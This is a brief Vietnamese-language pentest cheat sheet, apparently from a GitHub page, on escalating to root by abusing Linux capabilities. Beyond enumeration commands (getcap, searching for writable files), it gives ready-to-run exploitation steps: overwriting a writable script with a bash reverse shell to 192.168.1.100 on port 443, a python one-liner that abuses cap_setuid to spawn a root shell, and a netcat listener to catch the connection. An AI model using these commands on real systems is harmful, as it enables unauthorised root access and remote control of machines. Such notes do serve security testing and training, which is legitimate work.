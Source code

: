 # Capabilities

## Điểm chính khai thác

* File thực thi được gán khả năng Linux cấp đặc quyền cụ thể, cho phép thay đổi UID hoặc thực thi shell với quyền root mà không cần toàn bộ quyền quản trị.
* Thực thi mã hoặc mở shell với quyền root, dẫn đến nâng quyền từ người dùng thường lên quản trị.
* Chạy file thực thi có capabilities hoặc file lệnh được gán khả năng đặc quyền, cho phép thực thi các hành động vượt quá quyền hạn thông thường.

## Các bước khai thác

### Kiểm tra lỗ hổng

Kiểm tra tệp có Linux Capabilities:

```
getcap -r / 2>/dev/null
```

Kiểm tra quyền truy cập tập lệnh/thư mục:

```
find / -writable -type f 2>/dev/null
```

### Thực thi khai thác

Ghi đè tập lệnh có thể ghi:

```
echo '/bin/bash -i >& /dev/tcp/192.168.1.100/443 0>&1' > <file>
```

Khai thác khả năng cap\_setuid:

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Kích hoạt tập lệnh đã ghi đè:

```
./<file>
```

Chờ kết nối reverse shell sau khi tác vụ thực thi:

```
nc -lvnp 443
```
